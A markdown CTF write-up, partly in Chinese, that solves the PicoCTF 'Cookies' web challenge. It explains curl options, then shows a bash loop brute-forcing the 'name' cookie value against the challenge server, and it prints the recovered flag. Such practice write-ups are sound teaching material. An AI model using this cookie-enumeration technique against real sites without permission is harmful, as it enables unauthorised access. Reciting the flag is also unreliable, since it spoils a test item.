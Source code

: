 ```yaml
---
title: PicoCTF - Cookies
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - Cookies
<!-- more -->
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://mercury.picoctf.net:64944/

## Background
[curl 的用法指南](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
> -H參數添加 HTTP 請求的標頭。
`$ curl -H 'Accept-Language: en-US' https://google.com`

> -s參數將不輸出錯誤和進度信息。
`$ curl -s https://www.example.com`

> -L參數會讓 HTTP 請求跟隨服務器的重定向。curl 默認不跟隨重定向。
`$ curl -L -d 'tweet=hi' https://api.twitter.com/tweet`

> -I參數向服務器發出 HEAD 請求，然會將服務器返回的 HTTP 標頭打印出來。
`$ curl -I https://www.example.com`


## Exploit
1. Try to analyze
When I input something, it'll redirect to another page
![](https://i.imgur.com/Pq7XpNZ.png)
![](https://i.imgur.com/pKZJWfd.png)
I tried to change cookie to different number and also modify the different value of `name` parameter however, still got wrong information.

2. What about the redirect request
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -I
    HTTP/1.1 302 FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 209
    Location: http://mercury.picoctf.net:64944/
    Set-Cookie: name=-1; Path=/
    ```
    You can see that there is a cookie in header

3. How about setting different value?
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -H "Cookie: name=0;" -L
    ...
              <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                </div>



            <div class="jumbotron">
                <p class="lead"></p>
                <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            </div>
    ...
    ```
    It seems a hint to find value.

<font color="FF0000">通靈</font>
4. Brute force
```bash!
$ for i in {1..20};
for> do
for> contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for> if ! echo "$contents" | grep -q "Not very special"; then
for then> echo "Cookie #$i is special"
for then> echo $contents | grep "pico"
for then> break
for then> fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```


## Reference
[[ Day10] Web 小複習 ](https://ithelp.ithome.com.tw/articles/10271065)